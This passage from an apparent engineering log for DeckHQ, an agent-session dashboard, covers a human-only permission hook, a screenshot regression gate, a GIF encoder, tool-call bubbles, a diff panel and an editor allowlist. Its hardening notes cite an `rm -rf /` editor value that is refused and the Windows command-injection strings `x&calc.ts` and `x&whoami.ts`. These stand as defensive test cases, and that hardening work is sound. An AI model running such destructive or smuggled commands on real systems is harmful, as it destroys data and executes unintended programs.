- **`if`** narrows a hook by permission-rule syntax (`"Bash(git *)"`), and
  `matcher` narrows by tool name. DeckHQ should register with **neither**: the
  product's claim is that every raised hand appears.
- **Two managed-settings kill switches exist**, and `doctor` and the banner must
  know about them, because from the user's side they look identical to a broken
  install: `allowedHttpHookUrls`, _"Allowlist of URL patterns that HTTP hooks
  may target … If empty array, no HTTP hooks are allowed"_, and
  `allowManagedHooksOnly`, _"only hooks from managed settings run. User, project,
  and local hooks are ignored."_ On a managed machine the `http` route can be
  switched off over DeckHQ's head. §86.6 has the fallback.

A user-scope hook applies to every session in every terminal: hook lookup reads
the merged settings sources with no session or terminal condition
(`zq(event, …)` checks managed, then user/project/local unless
`allowManagedHooksOnly`, then plugins, then session hooks), and
`~/.claude/settings.json` is documented as scope "all your projects". This is
the same mechanism the six existing DeckHQ hooks already rely on, so it is
treated as settled rather than re-measured — but it was **not** independently
re-verified for `PermissionRequest`, because that needs the end-to-end run.

### 86.5 Recommended build design

**Hook type: `http`, with a `command` fallback.** `http` is one settings entry,
no process spawn per prompt, and a real ten-minute hold. Register one entry, no
`matcher`, no `if`:

```json
{
  "type": "http",
  "url": "http://127.0.0.1:<port>/api/permission",
  "timeout": 600,
  "statusMessage": "Waiting for DeckHQ…",
  "_deckhq": true
}
```

**Endpoint: `POST /api/permission`, separate from `/api/hook`.** `/api/hook`
acknowledges in under 200 ms by contract (`src/http/routes/hooks.mjs`) and must
keep doing so. The permission endpoint does the opposite — it holds. Two
different contracts, two routes.

**Holding.** Keep the `ServerResponse` in a map keyed by `tool_use_id`, and key
the card on `(session_id, tool_use_id)`. Register `res.on('close')` and drop the
entry when the socket dies — that is the user having answered in the terminal,
or the ten minutes having elapsed. Sockets held open are the only new resource
this feature introduces; cap the map and shed the oldest rather than letting it
grow without bound.

**Timeout.** Set `timeout: 600` explicitly rather than relying on the default,
so a future change to `Ng` cannot silently shorten the hold. **DeckHQ itself
must never run a timer that answers.** If nobody answers, DeckHQ answers
nothing and the ten minutes expire into the terminal prompt, which is the
correct outcome.

**UI states**, four of them:

1. **Waiting** — the card, with Allow / Deny / Allow for this session. Allow for
   this session is offered only when the request carried an `addRules`
   suggestion; otherwise it is absent, not disabled-with-a-tooltip.
2. **Answer in the terminal** — the `requires_user_interaction` class of tools.
   The card says which session and where, and offers no buttons, because a hook
   allow would be discarded.
3. **Withdrawn** — the socket closed before we answered. The card says "answered
   in the terminal", not "expired", because that is what almost always happened.
4. **Answered** — what DeckHQ sent, and by which button, kept visible long
   enough to be read.

**What DeckHQ must never do.** Never auto-allow, in any mode, for any tool, with
any allowlist. Never answer on a timer, on a heuristic, on a classifier, or on
"the user usually allows this" — the only thing that may resolve a card is a
human clicking one of its buttons. Never send `updatedPermissions` with a
`destination` other than `"session"`: a permanent grant written into the user's
settings files is not a button this panel has. Never set `interrupt: true`.
Never touch `ackState` — a permission decision is a statement about one tool
call, not about whether the user is done with the session, and routing it into
the user-owned half of the model would let an observed event clear a user-owned
state, which is the `08` §1.1 rule 1 invariant and has named `INVARIANT:` tests.
The permission card is its own object with its own lifetime; it may sit _beside_
an agent on the floor and must not mutate it.

**Consent and removal** reuse the existing discipline in
`src/adapters/claude-code/hooks.mjs` unchanged: the literal JSON on the consent
screen, `_deckhq: true` for exact removal, the byte-exact backup, and the
port-mismatch-reads-as-not-installed rule. Verified above: the extra tag does
not fail settings validation.

### 86.6 Port discovery — the plan's third question has no clean answer yet

The plan asks how the hook finds the daemon "without a hard-coded port". For the
`http` type it **cannot**: `url` is `F().url()`, a literal, and the only
interpolation the schema allows anywhere is `$VAR` inside `headers`, gated by
`allowedEnvVars`. The `${path}` interpolation from the hook input applies to
`mcp_tool` arguments only. So an `http` hook's port is baked in at install time,
exactly like today's command hooks.

And `~/.deckhq/state.json` is **not** a discovery mechanism today: the daemon
resolves its port in `startDaemon` (walking forward from 4317) and never writes
it anywhere. `src/core/paths.mjs` and `src/core/store.mjs` have no port. So the
options, in order of preference:

1. **Bake the port in, and keep the existing staleness cure.** `installedPort`
   and `staleAtPort` in `src/http/routes/hooks.mjs` already detect a hook aimed
   at the wrong port and already offer the one-click reinstall. The permission
   hook inherits that for free and needs no new machinery. This is the
   recommendation for the build.
2. **Have the daemon write its bound port** to `~/.deckhq/` on listen, and use a
   `command` hook — a node one-liner that reads the port, POSTs, and prints the
   decision JSON to stdout — for machines where the port moves often or where
   `allowedHttpHookUrls` forbids `http`. This is a real fallback for §86.4's
   managed-settings kill switches, and it is also the only route Codex has
   (§86.7). It costs a process spawn per raised hand, which is affordable at one
   per prompt.

Writing the port out is a small change with a use beyond this package; it
belongs in WP-36, not here.

### 86.7 Codex, from documentation only

Codex has `PermissionRequest` in `~/.codex/hooks.json` (or inline in
`config.toml`), and its documented response is the **object** form, which is
independent corroboration of §86.3 against the Claude Code prose docs:

```json
{
  "hookSpecificOutput": {
    "hookEventName": "PermissionRequest",
    "decision": { "behavior": "deny", "message": "Blocked by repository policy." }
  }
}
```

Payload fields named: `turn_id`, `tool_name`, `tool_input` (with
`tool_input.description` as the human-readable reason). Default timeout 600 s.
On no decision, _"Codex uses the normal approval flow"_ — the same
fall-through.

**The divergence that matters: Codex hook types are `command` and `mcp_tool`
only. There is no `http` type.** So the Codex adapter cannot reuse the endpoint
directly; it needs the §86.6 option 2 command hook. That makes option 2 worth
building for its own sake, not only as a fallback. None of this was run: Codex
is not installed on this machine, and the claim that the hook shipped in 0.150.0
on 26 August is unverified — the documentation gives no version.

### 86.8 `--permission-prompt-tool`, from documentation only

Still the right fallback for headless sessions DeckHQ spawns, with three
caveats. It must name an **MCP** tool — _"tool … must be an MCP tool"_ — so
DeckHQ would have to run an MCP server, which it does not today (that lands
with WP-37's plugin). The tool must return a **single text block** whose text is
JSON: _"Expected a single text block param with type=\"text\" and a string text
value"_, parsed to `allow` / `deny` with `updated_input` and
`updatedPermissions`. And it inherits the same exclusion as the hook — _"MCP
tool requires user interaction; not supported via --permission-prompt-tool"_. It
is also now hidden from `claude --help` while still being parsed, which makes it
the less stable of the two routes and confirms the plan's decision to lead with
the hook.

### 86.9 Go/no-go

**Go, with the acceptance criterion unchanged and unmet.** The mechanism exists,
covers interactive sessions DeckHQ never spawned, degrades to the terminal
prompt on every failure path including a closed daemon, and hands DeckHQ the
rule text for its third button. Nothing in the four days of build work depends
on a question this spike left open. The two corrections the plan needs are in
§86.3 (the response shape — the one that would have cost days of "why is
nothing happening") and §86.6 (the port is baked in, and Codex needs a `command`
hook). **The end-to-end run on the reference machine is still owed, and until it
happens this feature stays out of the README, the changelog and every tweet**,
per WP-19 and `08` §1.1 rule 11.

`scripts/spike-permission/` held the throwaway prototype that reproduced all of
this. It was not product code and was excluded from the published tarball by the
`files` whitelist in `package.json`. **The build landed and it is gone** —
`scripts/fake-permission-client.mjs` and `test/integration/permission.test.mjs`
reproduce the same findings against the real route. See §94.
## 87. WP-21 — the goldens gate, and the numbers it was calibrated with

WP-21 asks for three things: a deliberately reverted rig fix must fail the
gate, goldens must regenerate with one documented command, and the job must add
under 90 s to CI. All three, plus the part the workplan does not ask for and
the harness is worthless without — a tolerance that came from measurement
rather than from taste (`08` §1.1 rule 11).

**The gate.** `scripts/goldens.mjs`, zero dependencies: `npm run goldens` to
regenerate, `npm run goldens:check` to compare. Four populations from
`scripts/demo-floor.mjs` — `demo` (25 agents, the README floor), `empty`
(nobody), `single` (one agent), `reference` (the 70-session, 18-project
reference machine from `08` §0, the shape WP-50 exists to fix). PNG decode,
encode and the pixel diff are `scripts/lib/png.mjs` over `node:zlib`: 8-bit
non-interlaced PNG is a chunk walk, one `inflate` and five scanline filters,
which is cheaper than a dev dependency with a native build story.

**Determinism, and how it is enforced rather than hoped for.** Every fixture
value is a pure function of the population name — no clock, no random source.
The viewport is fixed at 1600x1000 at device scale 1, `prefers-reduced-motion`
is emulated so the renderer draws one static pose per state, and Chrome runs
with `--force-color-profile=srgb`, `--disable-lcd-text` and
`--font-render-hinting=none`. Then the belt: **two screenshots half a second
apart must be byte-identical before either is used.** A floor that is still
moving fails loudly instead of quietly becoming a golden that can never match
again.

### The noise floor, measured

Regenerate, then check twice against fresh captures, which is the procedure
this entry exists to record.

| | demo | empty | single | reference |
|---|---|---|---|---|
| Pixels that moved at all | 36 | 36 or 0 | 36 or 0 | 36 or 0 |
| Max channel delta | 1 | 1 | 1 | 1 |
| Bounding box | x 990–1581, y 12–13 | same | same | same |
| Pixels over a tolerance of 4 | 0 | 0 | 0 | 0 |

**36 pixels of 1,600,000, and always the same 36.** A 592x2 strip in the
header, one count on one channel, and the direction flips between runs — a
bistable rounding in a single blend, not drift. It appears in some populations
and not others on any given run, which is what says it is the blend and not the
floor. Nothing else in either image moves by even one count: the floor itself,
all 70 agents of it, is bit-exact across Chrome sessions.

### The signal, measured

Revert the one line of the §26 rig facing fix — `facingRot = pose.bodyAngle`
instead of `pose.bodyAngle + PI/2`, in `public/render/rig.js` — and check.

| Population | Over tolerance | Moved at all | Verdict |
|---|---|---|---|
| `reference` | 24,449 (1.528%) | 27,978 | **FAIL** |
| `demo` | 12,602 (0.788%) | 14,252 | **FAIL** |
| `single` | 1,181 (0.074%) | 1,295 | **FAIL** |
| `empty` | 0 | 36 | ok — correctly |

Exit 1, three of four. `empty` passing is not a hole, it is the control: there
is nobody on that floor to draw wrongly, so its capture under the reverted
build is the 36-pixel noise floor and nothing else. The line was restored and
`public/render/rig.js` verified byte-identical to before the revert; the check
is green again.

### So the numbers are

`CHANNEL_TOLERANCE = 8`. Eight times the measured noise amplitude of 1, and it
still keeps 91% of the weakest real signal (1,181 of the 1,295 pixels `single`
moves). **The first draft of this harness had 24**, picked by eye before
anything was measured; 24 keeps only 83% of that signal and, worse, would be
blind to a whole class of defect the noise gives no reason to tolerate — a
palette regression that shifted a colour by twenty counts across a large area
would have passed silently.

`MAX_DIFF_FRACTION = 0.0001` — 0.01%, 160 pixels. **The first draft had
0.0005 (800 pixels), and the measurement says that was nearly useless:** the
weakest signal is 1,181 pixels, so the old budget sat a factor of 1.5 under the
very defect this harness exists to catch. One slightly less visible bug on a
one-agent floor and the gate would have shrugged. 160 pixels sits 7.4x under
that weakest signal and 4.4x above the raw 36-pixel noise count — so the budget
holds even in the hypothetical where the tolerance stops suppressing the header
flip altogether.

What no tolerance can absorb is a Chrome or OS font update, which moves every
label at once. That is not a defect to be forgiven by a wider budget; it is a
regeneration, and the per-platform directory below is what makes that cheap.

### Goldens are per platform, and linux has no set yet — **RAISE**

Text is rasterised by the OS, so the same floor under Segoe UI/DirectWrite and
DejaVu/FreeType differs in every label. One set cannot serve three platforms;
`test/goldens/<process.platform>/` holds one set each.

**Committed here: `win32` only, 2.9 MB for four PNGs.** This is the machine
WP-21 was done on and there is no linux or macOS host in reach, so the CI job
runs on Ubuntu, finds no set, **reports SKIPPED and exits 0**, and uploads its
four fresh captures as the `goldens-linux` artifact — which is exactly how the
first linux set gets made: download, commit under `test/goldens/linux/`, and
the gate starts biting on the next push. Until somebody does that, **the CI job
proves nothing and must not be read as protection.** The harness says so in
those words rather than printing a green "all match" over an empty comparison,
which is the failure mode that would actually hurt. The local Windows gate is
real today, and is what the proof above was run against.

The 2.9 MB is accepted, with one thing checked first: re-encoding Chrome's PNGs
with paeth filtering at zlib level 9 makes all four **larger** (940 to 994, 629
to 663, 1328 to 1400, 28 to 32 KB). Chrome's encoder already wins, so the
goldens are the bytes Chrome produced, unmodified.

### CI

Ubuntu only and Node 22 only — the runner image ships Google Chrome, and the
CDP client needs the global `WebSocket` Node has unflagged only from 22.
**No install step**, because the harness is zero-dependency by design; that is
about 15 s of the budget saved. Both tooling gaps degrade to a skip with exit 0
rather than a red build — no Chrome, and no goldens for the platform — because
a gate that goes red over a missing browser is a gate people learn to ignore.
Failures upload the actual capture and a diff image (the expected floor at
quarter contrast with every differing pixel painted red) as artifacts.

**Timing: 26.1–28.6 s for all four populations, measured over six runs on the
Windows laptop**, against WP-21's budget of 90 s. Per population: `empty`
5.1–5.8 s, `single` 5.4–6.6, `demo` 5.8–6.6, `reference` 6.0–7.2. The Ubuntu
runner is unmeasured and is the one number here that is an estimate — checkout
and setup-node add roughly 5 s with nothing to install, and the job's
`timeout-minutes: 4` is a hang guard, not the budget.

### Two harness bugs found by running it repeatedly, not by reading it

Both would have shown up first as a flaky CI job, which is the way to lose a
visual gate.

**A demo that failed to boot aborted the whole run.** `startDemo` was awaited
outside the `try`, so one population failing to start took down the other three
with an unhandled rejection and a stack trace instead of printing one `FAIL`
line. It happened once in ten runs. Now inside the `try`, with one retry, and
`finally` copes with there being nothing to stop.

**The one error message that would have explained it was empty**, which is why
the cause took a second run to find: the child's exit was reported on `exit`,
which on Windows can fire before the child's stderr has been drained, so the
report arrived with the stack trace it was supposed to carry still sitting in
the pipe. Now `close`. The cause underneath was Windows holding a handle on the
fixture directory for a moment after the harness kills a population, so the
next run's `rmrf` hit EBUSY — `fs.rmSync` retries exactly those errors when
asked, and `demo-floor.mjs` now asks (`maxRetries: 20, retryDelay: 100`).

### Also landed here, and why

`--population NAME` on `scripts/demo-floor.mjs`, with its fixture directory
keyed to the name so a goldens run cannot tear down a floor somebody is looking
at in `npm run demo`; `onboarded: true` in the seeded settings, so the
first-run dialog is not something every capture script has to dismiss;
`extraArgs` on `withChrome`, for the rendering-determinism flags a README
capture has no use for; and `diffImages` now returns `differingAtAll` beside
`differing`, which is what lets `goldens:check` print its own noise floor on
every run. That last one is the guard on this whole entry: the tolerance was
measured once, and the number it was measured against is now reported
continuously, so the day the noise starts creeping is the day it becomes
visible rather than the day the tolerance is quietly widened to suit.

**Regenerated once on merge, 3 September.** WP-08 landed on `main` between this package's
capture and its merge, and its demo fixture now builds real repositories in the temp root, which
changed the project identities the carpet grain is seeded from. The check failed on three of four
populations with a uniform speckle across every project room's floor and nothing else — no
person, prop, wall or label moved, and `empty` passed. Goldens regenerated against the merged
tree; the speckle is why a fixture change must regenerate goldens, and the harness's own noise
floor (36 px) is unchanged.
## 88. WP-03's hero GIF: the floor did not walk, and there was no encoder to record it with

`02-MARKET-AND-LAUNCH.md` §3 A2 specifies the hero GIF as "an agent at a
desk types → stands → walks down the corridor → through your office door →
stands in the waiting area → a crimson badge appears and starts counting",
generated from `scripts/demo-floor.mjs` so it is reproducible and carries no
real project names. Shooting it turned up two things that had to be fixed
before there was anything to shoot, and one that had to be built.

**The floor did not walk. It teleported.** This is the important finding, and
it is a product bug, not a capture problem. `Scene.setState` rebuilds the
floor plan whenever the plan signature changes, and that signature counts who
is waiting, benched and let go — so the single most important transition in
the product, *a turn ends and the agent walks to your office*, was also a
plan rebuild. On a rebuilt plan `AgentRuntime.sync` seats everybody at their
new positions in one snap, because a rebuild normally means the geometry
changed underneath it and interpolating across two different buildings would
draw people walking through walls.

Measured on the demo floor at 10 fps, 1200×750, by counting changed pixels
per frame and tracking the bounding box of the change:

| | Before | After |
|---|---|---|
| Frames in which anything moved after the turn ended | **1** | **42** |
| Pixels changed in that frame | **431,956** | 887–1,544 per frame |
| Bounding box of the motion | whole floor | marches x=483 → x=59 |
| Walk visible to a viewer | none — one snap | **4.1 s** |

The fix is eleven lines in `public/render/scene.js` and it is a bridge rather
than a rewrite: before applying the new snapshot, seat the *previous* agent
list in the *new* building and sync that as one snap, then apply the new
snapshot. Every agent whose own state did not change is therefore already
where it belongs when the new snapshot lands and does not move; the one agent
whose state did change walks from its old seat to its new one. Nobody
interpolates across two buildings, which is the property the original snap
was protecting. All 443 tests pass unchanged.

**The floor still reflows once, and the GIF starts one frame after it.** The
office grows to fit a fifth agent in its waiting queue, which re-packs every
room by a few pixels, which moves every parquet plank — 431,956 pixels, of
which 152,009 change by more than 8 levels and 49,413 by more than 40. This
is not a bug; the floor is generated from the people on it (`08` §3 B6) and a
queue that grows has to be given room. But it is a one-frame jump, so the
GIF's first frame is the first frame *after* the reflow. Nothing is faked by
this: the agent is still at its desk in that frame, and dropping it also cut
the file from 438 KB to 241 KB, because that one frame was the only
full-frame update in the animation.

**There was no encoder.** Neither `ffmpeg` nor ImageMagick is on the machine
that cut this release (`convert.exe` on Windows is the filesystem tool, not
ImageMagick's), and a dependency — runtime or dev — for one image in a
README is a bad trade in a project whose pitch is that it has none. So
`scripts/gif-encoder.mjs` does the three things a GIF needs: decode the
captured PNGs, build one global 255-colour palette by median cut across every
frame, and write each frame as only the rectangle that changed with the
unchanged pixels transparent. It is a dev script; `scripts/` is not in the
published package, so the shipped tarball is unchanged.

Two choices inside it are worth recording because the textbook answer was
wrong here. The palette is cut at the **midpoint** of a box's widest channel,
not at its count-weighted median: the median is the standard median-cut rule,
and on this floor a crimson waiting badge is a few hundred pixels sharing a
box with acres of plant green, so a population split lands inside the green
and averages the badge into olive. A midpoint cut isolates a distinct hue
however rare it is — and the badge is the whole point of the image. And each
palette entry is the **bucket centre** rather than the bucket floor, because
6-bit quantisation otherwise biases every colour dark by up to 3/255.

**Result.** `docs/media/hero.gif`, 1200×750, 59 frames at 10 fps, 5.9 s,
**241 KB** against the 3 MB budget. Verified by parsing the encoded file
back: 59 image descriptors, a uniform 10 cs delay, a trailer at the last
byte, and sub-image origins that march x=483 → x=59 over frames 1–41 and
then hold — which is the walk, in the file's own geometry. Rendered in
Chrome to confirm the palette, the text and the frame disposal: no trail
behind the walker, no flicker.

**Capture is reproducible.** `scripts/capture-hero.mjs` drives it end to end:
it points headless Chrome at the demo floor, hides the header so only the
floor is in shot, and ends one agent's turn by posting a `Stop` event to the
real `/api/hook` endpoint — the same path Claude Code's own hook takes, so
the state change is produced by the real state machine and not staged.
Recording is a `getImageData` copy on a timer inside the page, not a
screenshot per frame over the DevTools protocol: `Page.captureScreenshot` at
this size costs ~280 ms, which caps an external loop at 3–4 fps, and the
frames are pulled out as PNGs only after the walk is over. Measured rate,
10.0 fps against 10 requested.

## 89. WP-52 — thought bubbles: what the two new hook events are allowed to touch, and what they are not

`08-PLAN-V2-100X.md` §3.5 and §9. `PreToolUse` and `PostToolUse` join the
tagged hook block; the daemon keeps a `currentTool` per session; the floor
draws it above the head and the panel header says it in words. Shipped as
specified. Six decisions the package description did not settle.

**Decision 1 — the two events touch `currentTool` and nothing else.** Not
`activityState`, not `lastOutputAt`, not `lastActivityAt`, not one field the
user owns. Two of those are worth spelling out, because both were tempting:

- _Not `activityState`._ A session with its hand up that runs a tool is still a
  session with its hand up. Moving it to `working` would take a raised hand off
  the floor without the user ever answering it — an observed event changing the
  needs-you count, which is the exact shape of the bug `docs/01-PRODUCT.md` §2
  exists to forbid.
- _Not `lastOutputAt`._ That field is the stall clock (§4.3), and `stalled` is
  one of the three states the needs-you count is made of. Letting tool traffic
  reset it would silently redefine "stalled" from "no turn boundary in ten
  minutes" to "no tool call in ten minutes" — a real product change, smuggled in
  as an implementation detail. The consequence is honest and intended: an agent
  grinding through a twenty-minute build still goes to `stalled`, and its bubble
  expires with it (decision 3).

`hookLive` IS set, for the same reason every other hook event sets it: a tool
call is proof the process is running. It cannot move a `for_review` session —
`endedOr` and `_computeAgents` already guarantee that.
`INVARIANT: a PreToolUse/PostToolUse event changes no user-owned field` in
`test/unit/state-machine.test.mjs` drives a two-agent floor — one waiting in the
office, one benched with its hand up — through six tool events and
deep-compares every user-owned field plus all six counts.

**Decision 2 — the summary is parsed in the adapter, not the route.**
`toolSummary()` lives in `src/adapters/claude-code/hooks.mjs` and is exposed as
`adapter.hooks.toolSummary`; `POST /api/hook` asks the runtime's own adapter
what its payload says. `tool_input.command`/`file_path` is Claude Code's shape,
and nothing outside `src/adapters/` may know a runtime's format
(`02-ARCHITECTURE.md` §2). A runtime with no `toolSummary` — Codex today —
simply has no bubble, and that costs it nothing else.

**Decision 3 — a bubble expires with the stall window.** `PostToolUse` is not
guaranteed: kill the runtime mid-tool, block the hook, sleep the machine, and
"Bash npm test" hangs over a head forever. `tick()` drops any `currentTool`
older than `stallWindowMs`, before its hook and liveness guards, so the expiry
also runs on the degraded path. The floor may say nothing; it may not say
something stale.

**Decision 4 — the bubble yields; it never negotiates.** Above the head is one
slot. Precedence is state icon, then bubble, then the abstract thought cloud —
so an agent with a raised hand, an hourglass, a review tick or a waiting badge
draws no bubble at all, and one that is merely working replaces its cloud with
the bubble rather than wearing both. A collision-avoidance nudge was considered
and rejected: "what it is doing" is context, and context that pushes a call to
action around the screen has been promoted past its station. At L0, and under
reduced motion at any LOD, the tool CLASS is drawn instead — a file, a shell, a
globe or a beat — which is `08` §3.5's "station per tool class, as a state icon
first". Colours stay in the cloud's neutral ink: no state colour, and above all
no crimson, which means "in your office" and nothing else.

**Decision 5 — a path outside the session's cwd keeps only its basename.** The
acceptance criterion is that the bubble "never contains project paths outside
the session's cwd". Dropping such a tool entirely would make the floor go quiet
exactly when an agent reaches out of its project, which is the moment worth
seeing; showing the path would put someone else's directory tree in a
screenshot. So `/home/me/other-client/secret/notes.md` reads `Read notes.md`. A
relative `file_path` is resolved against the SESSION's cwd, never the daemon's.
Two `SECURITY:` tests in `test/unit/hooks.test.mjs` hold this, including a
different Windows drive and a `..` escape.

**Decision 6 — every payload string is flattened before it is anything else.** A
command line is text this project did not write: it can carry newlines, ANSI
escapes, a bidi override that reverses the rest of the line, or 4 KB of one
word. `oneLine()` replaces every `\p{C}` code point with a space, collapses
whitespace, and cuts to length — 80 characters for a command, 120 for the whole
summary (`MAX_TOOL_SUMMARY`, in `model.mjs` beside `MAX_LAST_TEXT`). It reaches
the screen only through `fillText` on canvas and `textContent` in the panel;
there is no markup path, and the client still has no `innerHTML` at all.

**What did not change.** The demo floor emits no tool events, so the four
goldens are byte-identical and were not regenerated — a bubble needs a live
`PreToolUse`, which is what `docs/media/thought-bubble.png` is: `npm run demo`,
three real `POST /api/hook` calls (a `Bash`, an `Edit`, a `Read`) against three
working sessions, then `scripts/capture-floor.mjs`. `public/render/plan.js`,
`public/app.js` and the WP-08 panel layout are untouched; the panel gained one
line under the header and nothing was restructured.

**Accepted limits.** `Write`, `MultiEdit` and `Grep` show as their bare names:
the package specifies four rules (`Bash`, `Edit`, `Read`, otherwise the name)
and inventing more argument shapes is a spec change, not an implementation
detail — worth revisiting once the bubble has been watched on a real machine for
a week. A subagent's tools are attributed to whichever session id the hook
carries, which is the parent until WP-41 gives subagents their own bodies. And a
bubble can hang over a neighbouring desk in a crowded room at a tight fit scale;
it is drawn above every head, so it never covers a face, and it yields entirely
wherever it would compete with something the user has to act on.

## 90. WP-47 — the diff in the panel, and the one setting that becomes a program

WP-08 stopped at the file table and said so (§85.2): `[ open the diff ]` in
`docs/plan/05-GUI-UX-SPEC.md` §4.1 was this package. It is now there, as a
disclosure on every row rather than one button under the table, and six things
about it are decisions rather than transcription.

**1. Two routes, not one.** `08` §8.1 describes the diff and "open in editor"
as one addition. They are `GET /api/diff?id=&file=` and
`POST /api/open-in-editor {id, file, line}`, in one module
(`src/http/routes/diff.mjs`) because they share the confinement rule, and the
confinement rule is the security-relevant part of both. `/api/diff` is
`/api/changes` one level deeper and copies it exactly: `git diff` and
`git diff --cached` for the one file, argv arrays, run in the session's cwd,
cached per scan, five outcomes as a `status` rather than an error, and it never
touches ack state.

**2. The repository's top level defines "inside", not the session's cwd.** A
session's cwd is often a subdirectory of its repository, and
`git diff --numstat` — which is what WP-08's rows are built from — reports
paths relative to the **top level** regardless of where it is run. So a path
that is perfectly valid on a row (`src/events/backfill.ts`) does not resolve
against the cwd. The route asks `git rev-parse --show-toplevel` and confines
against that, with `path.relative` rather than a prefix comparison, because
drive letters and case-insensitivity make prefix comparison unsafe on Windows —
the same rule `serveStatic` uses. A path that lands outside is a 400, not a
clamp. `git rev-parse --show-toplevel` was checked on git 2.55: it returns
forward slashes on Windows, and an absolute forward-slash pathspec after `--`
resolves from any cwd inside the repository, which is what the route passes.

**3. `--no-ext-diff --no-textconv`, which the plan does not mention.** Both
`diff.external` and a `textconv` attribute let a repository's own config name a
program that git runs while producing a diff. This diff is produced because a
browser asked for it, on a repository an agent has been writing to. Both are
turned off.

**4. The cap is 200 KB per diff, cut on a line boundary, and it is reported.**
A diff is unbounded — a regenerated lockfile is megabytes — and this one is
being rendered into a side panel. Past the cap the response carries
`truncated: true` and the real byte count, and the panel says *"the rest of this
diff is too large to show here"* rather than showing half a file as though it
were the whole one.

**5. The rows are stacked blocks now, not one `display: contents` grid.** WP-08
drew the file table as a three-column grid whose rows were `display: contents`.
A row that expands has to own a diff element beneath it and be a `<button>` —
`display: contents` is ignored on interactive elements, and a keydown handler
reimplementing Enter, Space, focus and `aria-expanded` for a fake button is
strictly worse than the real one. So each row is a block with its own
three-column head, and the numeric columns hold their alignment on a fixed
`5ch` track instead of `auto`. Same content, same figures, same reading.
Expansion state is kept per file in the panel, not in the DOM, because a new
scan re-renders the whole table every few seconds and a diff the user opened
must not close itself.

**6. Three new colour tokens, and why they do not break the stylesheet's own
rule.** `--diff-add`, `--diff-del` and `--diff-hunk` are the first tokens in
this project that set small text in a colour. The rule they look like they
break is about **state** colours and the **accent**: several of those sit
between 3:1 and 4.5:1 and, more importantly, crimson means "in your office" and
green means "working" — a removed line means neither. These three are their own
tokens, they name nothing on the floor, and they are held to the full 4.5:1
text floor on `--surface-2` (the diff's ground) and on both chrome grounds:
measured 8.08, 5.88 and 7.16 on `--surface-2`. `test/unit/diff-view.test.mjs`
recomputes all nine ratios from the stylesheet and also asserts that none of
the three is a state colour or the accent. And colour is never the carrier: a
unified diff already begins every added line with `+` and every removed one
with `-`.

### 90.1 "Open in editor": the allowlist, and what Windows costs

The client sends `{id, file, line}`. It never sends a command. Which program
that means is a lookup in a frozen table of five — `code`, `cursor`, `zed`,
`idea`, `subl` — and everything else is refused at three separate points: the
settings route rejects the value with a 400, the store refuses to persist it,
and `core/editor.mjs` refuses to resolve it. `$EDITOR` is consulted only to
*choose between* members of that set; an `$EDITOR` of `rm -rf /` selects
nothing and the PATH order decides instead. `subl` is on the list beyond `08`
§9's four because Sublime takes the same `file:line` form and leaving it out
would only push that user to a shell.

`editor: ''` is the default and means "decide for me". Guessing at install time
and freezing the answer into `state.json` would be wrong on the first machine
that installs a different editor.

**The Windows problem, and the measurement.** `code` on Windows is `code.cmd`.
Node refuses to spawn a `.cmd` without a shell (CVE-2024-27980; `spawn EINVAL`,
reproduced on Node 24.19 with the real `code.cmd` on the reference machine),
and `shell: true` with an args array concatenates without escaping — Node
deprecated exactly that as a vulnerability (DEP0190, and it was reproduced
here: `x&calc.ts` ran `calc.ts` as a command). So a batch launcher goes through
`cmd.exe /d /s /c` with `windowsVerbatimArguments` and a command line this
project quotes itself. Three things were checked against a real `cmd.exe`
rather than reasoned about:

| | Result |
|---|---|
| `"exe" "arg"` after `/s /c` | fails — `/s` strips the outer pair, so the line needs its own: `""exe" "arg""` |
| `&`, `\|`, `<`, `>`, `^` inside the quotes | literal. `ARG1=["C:/a b/x&whoami.ts:12"]` |
| `"` and `%` inside the quotes | escape. A path containing either is **refused**, with a message pointing at the editor |

An `.exe` launcher, and every non-Windows platform, take the straight argv path
with no shell at all. `test/unit/editor.test.mjs` asserts the exact argv for
both, including the doubled quotes, without starting a program: `resolveEditor`
takes a fake PATH and a fake "is this a file" predicate, and `editorArgv`
returns the `[command, argv, options]` a launch would use.

**What is not covered.** Only `code` exists on the reference machine, so
`cursor`, `zed`, `idea` and `subl` are unit-tested for their argv and have
never been launched. The argv forms are from each editor's own documented CLI
(`-g file:line` for the two VS Code builds, `file:line` for Zed and Sublime,
`--line N file` for IntelliJ); the first of the four to be tried on a real
machine is the one that will say whether that is enough.

### 90.2 What the screenshot proves

`docs/media/panel-diff.png` (rule 10), the demo floor at 1600x1000 with the
panel open on the `for_review` session in `orbital-api` and
`src/events/backfill.ts` expanded. The heading still reads **"what changed in
orbital-api"** — `05` §4.2's honesty requirement is untouched by this package —
over `+142 −18 3 files`, and under the expanded row are the real `git diff`
lines for that working tree: the `diff --git` and `index` headers in muted
ink, two `@@` hunk headers, four removals, context, and the run of additions,
each line a `textContent` node. Reproduced with `npm run demo` and:

```
node scripts/capture-floor.mjs --url http://127.0.0.1:4499/ --width 1600 --height 1000 \
  --settle 9000 --press j --click ".review-file-head" \
  --scroll ".review-changes .review-heading-row, .review-heading-row" \
  --out docs/media/panel-diff.png
```

`--click` and `--scroll` are new on `scripts/capture-floor.mjs`: `--press` walks
the needs-you queue, but a file row is a button inside the panel with no
keyboard route of its own, and once a diff is open the part worth photographing
is below the fold.

**The goldens are untouched.** `npm run goldens:check` passes on all four
populations with 0 pixels over tolerance, because the panel is closed in every
one of them and nothing in this package changes the floor.

## 91. WP-04 — ten terminals, twenty-one asserted argv arrays, and not one of them run on a real desktop

**Spec:** `06-ENGINEERING-WORKPLAN.md` WP-04, and `07-AGENT-HANDOVERS.md` Agent Backend.
Detect and prefer Ghostty, iTerm2, Warp, kitty, WezTerm, then Terminal.app on macOS; add
alacritty, foot, wezterm and kitty on Linux and honour `$TERMINAL` first; a settings entry to
pin one; the same treatment for `openNewSession()`; keep the argv-array discipline.

**Shipped:** all of it, in `src/adapters/claude-code/terminals.mjs`. The adapter's two launch
functions are now three lines each — they name the command (`claude --resume <id>`, or
`claude [prompt]`) and hand it to `launchTerminal()`, which owns detection, the per-emulator
argv, the wrapper script and the fallback walk.

### The table

| Platform | Order              | Launched as                                                                   |
| -------- | ------------------ | ----------------------------------------------------------------------------- |
| macOS    | 1 Ghostty          | `ghostty --working-directory=<cwd> -e <argv>`, or `open -na Ghostty --args …`  |
|          | 2 iTerm2           | `osascript -e <script> <wrapper.command>`                                      |
|          | 3 Warp             | `open -a Warp <wrapper.command>`                                              |
|          | 4 kitty            | `kitty --directory <cwd> <argv>`, or `open -na kitty --args …`                |
